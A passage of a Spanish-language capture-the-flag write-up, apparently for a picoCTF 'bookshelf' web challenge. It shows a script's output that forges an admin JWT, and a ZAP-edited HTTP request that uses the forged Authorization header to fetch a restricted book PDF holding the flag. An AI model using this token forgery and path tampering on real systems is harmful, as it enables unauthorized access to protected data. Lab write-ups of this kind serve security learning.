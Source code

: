 Ejecuto el script para obtener la cabecera Authorization ya completa

``` shell
pablo☠office java-code-analisis$ python compose_key.py
Cadena original sin codificar (JSON plano):
{"typ":"JWT","alg":"HS256"}.{"role":"Admin","iss":"bookshelf","exp":1753559781,"iat":1752954981,"userId":2,"email":"admin"}

JWT final:
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NTM1NTk3ODEsImlhdCI6MTc1Mjk1NDk4MSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.lHEd6aR6sdKZX00iiGUhpf5-mqCHMHb0ja23nj_a_oM
```

Cuando cargas la página poniendo atención e inspeccionando los recursos que se cargan, podemos encontrar esta ruta **/base/books/cover/5**,esto da a entender que la ruta de los libros debe estar en **/base/books/[algo]**, además el libro que sí podemos ver "Little Brother" sería el numero 3, el segundo libro el número 4 "The Future of the Internet and How to Stop It", y el libro "Flag" el número 5 

Sabemos que [/pdf/] alberga los pdf entonces si suponemos que cada libro se debería encontrar en una estructura de directorios y archivos similar a esta

``` shell
/
└── base
    ├── cover
    │   ├── 3
    │   ├── 4
    │   └── 5
    └── pdf
        ├── 3
        ├── 4
        └── 5
```

Como ya indicamos el 5 debería ser la flag, así que con Zap, modifico el request de **/base/books/cover/5** y simplemente cambio cover por pdf **base/books/pdf/5** y altero la cabecera Authorization. 

``` html
GET http://saturn.picoctf.net:50392/base/books/pdf/5 HTTP/1.1
host: saturn.picoctf.net:50392
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NTM1NTk3ODEsImlhdCI6MTc1Mjk1NDk4MSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.lHEd6aR6sdKZX00iiGUhpf5-mqCHMHb0ja23nj_a_oM
content-length: 80

Connection: keep-alive
Referer: http://saturn.picoctf.net:50392/
Priority: u=0
```
